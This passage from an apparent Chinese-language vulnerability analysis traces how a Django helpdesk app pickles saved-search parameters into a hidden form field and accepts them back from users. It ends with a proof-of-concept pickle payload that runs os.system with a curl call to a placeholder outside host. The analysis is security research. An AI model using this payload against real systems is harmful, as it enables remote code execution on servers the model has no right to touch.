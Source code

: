 如何去处理这个字段的值，在上个文件中，找到保存的处理方法。从post中获取`query_encoded`，判断不为空则直接保存进数据库。

```python
def save_query(request):
    title = request.POST.get('title', None)
    shared = request.POST.get('shared', False) in ['on', 'True', True, 'TRUE']
    query_encoded = request.POST.get('query_encoded', None)

    if not title or not query_encoded:
        return HttpResponseRedirect(reverse('helpdesk_list'))

    query = SavedSearch(title=title, shared=shared, query=query_encoded, user=request.user)
    query.save()
```

那么如何调用的，同样去搜索关键词`save_query`找到路由，找到对应的name为`helpdesk_savequery`，找到对应的前端表单

```
<form method='post' action='{% url 'helpdesk_savequery' %}'>
    <input type='hidden' name='query_encoded' value='{{ urlsafe_query }}' />
    <dl>
        <dt><label for='id_title'>{% trans "Query Name" %}</label></dt>
        <dd><input type='text' name='title' id='id_title' /></dd>
        <dd class='form_help_text'>{% trans "This name appears in the drop-down list of saved queries. If you share your query, other users will see this name, so choose something clear and descriptive!" %}</dd>

        <dt><label for='id_shared'>{% trans "Shared?" %}</label></dt>
        <dd><input type='checkbox' name='shared' id='id_shared' /> {% trans "Yes, share this query with other users." %}</dd>
        <dd class='form_help_text'>{% trans "If you share this query, it will be visible by <em>all</em> other logged-in users." %}</dd>

    </dl>

    <div class='buttons'>
        <input class="btn btn-primary" type='submit' value='{% trans "Save Query" %}'>
    </div>

    {% csrf_token %}</form>
```

从表单中可以看到，`query_encoded`是模板写入，找到`urlsafe_query`看是如何调用的，从调用结果看，就知道是后台先去序列化然后赋值给模板，前端模板操作的时候，再把这个序列化的值传入后台中去反序列化。

```python
......
    import pickle
    from base64 import b64encode
    urlsafe_query = b64encode(pickle.dumps(query_params)).decode()
```

尝试构造一个反序列化的poc

```python
import pickle,os
from base64 import b64encode

class exp(object):
    def __reduce__(self):
        return (os.system,('curl http://xxxx/py',))
e = exp()
b64encode(pickle.dumps(e))
```
